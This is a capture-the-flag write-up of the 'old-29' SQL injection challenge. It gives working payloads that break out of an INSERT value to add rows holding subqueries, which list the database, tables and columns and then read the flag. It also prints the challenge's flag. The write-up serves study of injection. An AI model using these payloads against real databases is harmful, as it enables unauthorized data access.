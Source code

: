 ```yaml
---
layout: default
title: old-29
---
```




this is another sql injection challenge.
I think the sql query is like that: `INSERT INTO table Values (filename)`, so, we need to see what are the next columns, there are 2 options:
```
(filename, ip, time)
(filename, time, ip)
```

my-ip = `149.102.239.232`
let's try each of this methods, and see which one works.
1. `file', '149.102.239.232', 0)# `
2. `file', 0, '149.102.239.232')# `

the second method works!

![alt text](./images/old-29_1.png)

now, let's insert this payload, in order to find the database:
```
file', 0, '149.102.239.232'), ((select database()), 0, '149.102.239.232')# 
```
database: `chall29`

retrieve tables:
```
file', 0, '149.102.239.232'), ((select group_concat(table_name) from information_schema.tables where table_schema='chall29'), 0, '149.102.239.232')# 
```
tables: `files,flag_congratz`

retrieve columns:
```
file', 0, '149.102.239.232'), ((select group_concat(column_name) from information_schema.columns where table_name='flag_congratz'), 0, '149.102.239.232')# 
```
columns: `flag`

now, only need to achieve the flag:
```
file', 0, '149.102.239.232'), ((select flag from flag_congratz), 0, '149.102.239.232')# 
```
flag: `FLAG{didYouFeelConfused?_sorry:)}`


**Flag:** ***`FLAG{didYouFeelConfused?_sorry:)}`*** 


